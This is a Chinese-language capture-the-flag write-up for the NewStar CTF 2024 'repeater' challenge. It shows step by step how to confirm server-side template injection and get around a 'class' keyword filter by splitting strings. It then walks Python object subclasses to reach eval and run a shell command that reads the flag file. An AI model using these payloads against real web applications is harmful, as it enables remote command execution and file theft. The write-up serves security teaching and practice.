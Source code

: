 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 复读机

可以看到，输入什么就输出什么

输入 `{{ '{'+'{ 7*7 }'+'}' }}` 的时候，输出的结果是 49，说明存在 SSTI 注入

输入 `{{ '{'+'{ [].__class__}'+'}' }}`，发现 bot 显示不喜欢上课,说明 `class` 被过滤了，可以使用简单的拼接绕过

```python
{{'{'+`{[]['__cl'+'ass__']}`+'}'}}
```

得到 `list` 类

![简单的 SSTI](/assets/images/wp/2024/week2/fuduji_1.png)

后面就是基本的注入方法了

获取 `object` 类

```python
{{()['__cl'+'ass__']['__base__']}}
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']}}
```

![获取 object 类](/assets/images/wp/2024/week2/fuduji_2.png)

找一个可以利用的类，这里选用 `os._wrap_close`

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__'][132]}}
```

![获取 os._wrap_close](/assets/images/wp/2024/week2/fuduji_3.png)

然后就是拿到 `eval` 方法，命令执行就行

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()[132]['__init__']['__globals__']['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

![命令执行](/assets/images/wp/2024/week2/fuduji_4.png)

方法很多，大家可以自己试试
